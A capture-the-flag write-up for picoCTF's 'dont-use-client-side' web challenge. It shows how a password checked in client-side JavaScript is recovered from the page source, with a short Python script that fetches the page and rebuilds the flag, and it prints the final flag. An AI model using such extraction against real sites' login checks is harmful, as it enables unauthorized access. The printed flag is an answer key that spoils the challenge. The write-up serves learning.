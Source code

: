 # dont-use-client-side

## Overview

Points: 100
Category: Web Exploitation

## Description
Can you break into this super secure portal? https://jupiter.challenges.picoctf.org/problem/17682/ or http://jupiter.challenges.picoctf.org:17682 

Link will differ from user to user

## Hints
1. Never trust the client

## Approach

First hint that I got was from the challenge description, which said "dont user client side".

So this has something to do with client side.

Upon opening the link, the web page showed a basic login screen with just the password as input.

![dont use client side homepage](/picoCTF/img/dont%20use%20client%20side%201.png)

I tried using common passwords like 123456 and pasword but none of them worked.

<!-- add error logging in image -->
![dont use client side incorrent password](/picoCTF/img/dont%20use%20client%20side%202.png)

Then I went to view the source code for this web page, which is shown below:

<!-- Add view source page screenshot here -->
![dont use client side source code](/picoCTF/img/dont%20use%20client%20side%203.png)

It was pretty clear that the flag was in the source code. 

Now the main challenge was to get the flag from the source code. We can approach it using 2 ways:
1. Copy pasting the raw flag from source code itself.
2. Writing a script to get the flag by parsing through the source

Since this challenge looked pretty easy for me, I would have preferred to go with the 1<sup>st</sup> option as that would have been faster and easier than writing a script to parse through the source code.

But I to wrote the code to get the flag from the source code itself in this challenge.

```python
#!/usr/bin/env python

#Get the requests package to send requests
# 'pip install requests' if your system does not have the package installes
import requests

r = requests.get('put-your-link-for-the-challenge')

# We now parse the source code and get all the lines
lines = r.text.split('\n')

# Since we know that the flag content is in the line that has if conditions, we extract only those lines
lines = [l for l in lines if 'if ' in l]

# Cleaning up the extracted lines
lines = [l.split('==') for l in lines]

# Here:
#   1. The lambda function is used to clean the first eleme nt of the lines list and remove the single quotes(') from the second element. It returns a clean-up tuple of text 
#   2. The map function applies the lambda function to all the lines list element 
#   3. The sorted function then sorts out all the elements of the lines list in ascending order.
#   4. Finally the list function makes the whole output in a form of list
lines = list(
            sorted(
                map(
                    lambda x: (x[0].strip(), x[1].split('\'')[1]),
                    lines
                    )
                )
            )


# We now form the whole flag
s = ''
s += lines[0][1]
s += lines[-1][1]
for l in lines[1:-1]:
        s += l[1]

# Then we print the flag
print(s)

```

## Flag
We finally the get as : picoCTF{no_clients_plz_b706c5}